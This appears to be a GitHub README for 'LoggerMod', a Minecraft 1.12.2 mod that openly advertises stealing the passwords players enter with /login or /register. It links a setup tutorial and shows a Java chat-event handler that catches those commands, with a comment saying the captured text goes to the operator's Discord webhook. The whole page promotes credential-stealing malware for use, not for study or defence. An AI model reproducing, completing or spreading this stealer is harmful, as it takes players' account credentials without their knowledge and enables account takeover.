 # 🔌 LoggerMod
This mod on 1.12.2 steals the entered passwords (Entered via /login)


# ⚡ How to configure?
You can easily change the config for yourself  
Tutorial: [Click](https://www.youtube.com/watch?v=RxuuHBnjgj0) (in Russian)

# ❓ How it Works?
```java
    @SubscribeEvent
    public void ChatEvent(ClientChatEvent e) {
        String msg = e.getMessage();
        String[] sentences = e.getMessage().split(" ");
        if ((msg.startsWith("/l") || msg.startsWith("/login") || msg.startsWith("/reg") || msg.startsWith("/register")) && sentences.length > 1) {
            // Sending to your discord server use Webhook
        }
    }

``` 

# 📱 Screenshots
![Screenshot_20220303_200054](https://user-images.githubusercontent.com/100863585/156613993-d4fd0a97-e967-4539-be72-2893f90d70ba.png)
